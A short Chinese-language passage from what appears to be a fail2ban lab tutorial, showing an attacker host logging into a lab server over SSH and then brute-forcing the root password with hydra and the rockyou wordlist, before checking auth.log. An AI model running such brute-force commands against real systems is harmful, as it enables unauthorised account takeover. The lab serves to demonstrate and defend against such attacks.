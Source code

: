 ![](imgs/fail2ban/ssh.png)

攻击者主机上能够正常连接服务器

```bash
# 连接
ssh root@10.0.2.14
```

![](imgs/fail2ban/connect.png)

#### 爆破ssh

并没有等到爆破结束（嫌弃它慢）

```bash
# 解压爆破字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

# 类似的爆破工具还有：medusa/ncrack
hydra -l root -P /usr/share/wordlists/rockyou.txt -v 10.0.2.14 ssh

# 查看ssh登录信息
# ESC → G : 跳转到最底部
vi /var/log/auth.log
```
